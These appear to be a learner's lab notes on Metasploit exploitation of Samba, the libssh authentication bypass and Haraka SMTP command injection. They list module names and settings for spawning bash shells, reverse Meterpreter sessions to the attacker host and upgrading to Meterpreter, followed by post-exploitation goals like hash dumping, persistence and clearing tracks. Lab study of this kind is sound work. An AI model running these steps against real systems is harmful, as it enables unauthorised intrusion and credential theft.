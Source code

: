 Demo:
/samba/is_known_pipename
`check`

post/multi/manage/shell_to_meterpreter
`set LHOST eth1`
`set sessions 1`

### SSH Server vuln exploit
- SSH secure shell
- p22 default

- libssh is a multiplatform C lib implementing SSHv2 on lcient and server side
- libssh v0.6.0-v0.8.0 is vulnerable to auth bypass vulnerability in the libssh server code that can be exploited to execute commands on the target server

Demo:
/ssh/libssh_auth_bypass
`set SPAWN_PTY true` --> spawn a terminal session set it to true
`sessions 1`
I had to `set CMD /bin/bash -i` so it doesnt auto exit when on the session

post/multi/manage/shell_to_meterpreter
`set LHOST eth1`
`set sessions 1`


### SMTP Server vuln exploit
- Transmission of email
- p25

- Haraka opensource high perf SMTP server developed in Node.js
- Haraka SMTP server comes with a plugin for processing attachments 
- versions prior to V2.8.9 are vuln ot CMD injection
Cool: haraka is kiswahili for fast

Demo:
/smtp/haraka
- A valid email address must be provided that the server accepts
where to launch mail server locally (the attackers machine)
`set SRVHOST 0.0.0.0`
`set SRVPORT 9898`  --> must be different from the LPORT option (which will need it for the connection)

`set email_to root@attackdefense.test`
`set payload linux/x64/meterpreter_reverse_http`  --> non-staged payload used instead
`set LHOST eth1`


## Post Exploit Fundamntals

Various techniques used here:
Eg
- Local Enumeration
- Priv Escalation
- Dumping hashes
- Establish persistence
- Clearing tracks
- Pivoting
